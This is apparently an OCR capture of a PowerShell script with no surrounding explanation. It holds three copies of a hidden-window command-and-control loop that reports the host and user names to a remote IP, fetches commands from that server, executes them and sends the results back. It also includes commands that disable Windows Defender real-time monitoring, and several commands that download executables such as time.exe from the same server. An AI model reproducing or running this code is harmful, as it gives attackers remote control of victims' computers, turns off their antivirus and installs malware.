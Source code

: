 Start-Process $PSHOME\powershell.exe -ArgumentList {$s='31.166.215.197:45001';$i='f0efbf5c-7b9c693b-d71a9183';$p='http://';$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/f0efbf5c/$env:COMPUTERNAME/$env:USERNAME -Headers @{"Authorization"=$i};for (;;){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/7b9c693b -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=Invoke-Expression $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$x=Invoke-RestMethod -Uri $p$s/d71a9183 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}} -WindowStyle Hidden

Start-Process $PSHOME\powershell.exe -ArgumentList {$s='31.166.215.197:45001';$i='c2e3e1ce-63face78-66c32997';$p='http://';$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/c2e3e1ce/$env:COMPUTERNAME/$env:USERNAME -Headers @{"Authorization"=$i};for (;;){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/63face78 -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=Invoke-Expression $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$x=Invoke-RestMethod -Uri $p$s/66c32997 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}} -WindowStyle Hidden

Start-Process $PSHOME\powershell.exe -ArgumentList {$s='31.166.215.197:45001';$i='78a942f8-30d8ee53-67062fab';$p='http://';$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/78a942f8/$env:COMPUTERNAME/$env:USERNAME -Headers @{"Authorization"=$i};for (;;){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/30d8ee53 -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=Invoke-Expression $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$x=Invoke-RestMethod -Uri $p$s/67062fab -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}} -WindowStyle Hidden


New-ItemProperty -Path "HKLM:\Software\policies\microsoft\windows defender" -name disableantispyware -value 0 –Force

Set-MpPreference -DisableRealtimeMonitoring $true



$URL = "http://31.166.215.197:45005/time.exe"

$Path=”C:\Files\MyFile.txt”
Invoke-WebRequest -URI $URL -OutFile $Path
(New-Object System.Net.WebClient).DownloadFile ($URL, $Path)
Start-BitsTransfer -Source $URL -Destination $Path


wget 31.166.215.197:45005/time1.exe
curl 31.166.215.197:45005/time.exe
Invoke-WebRequest http://31.166.215.197:45005/time.exe -O time.exe
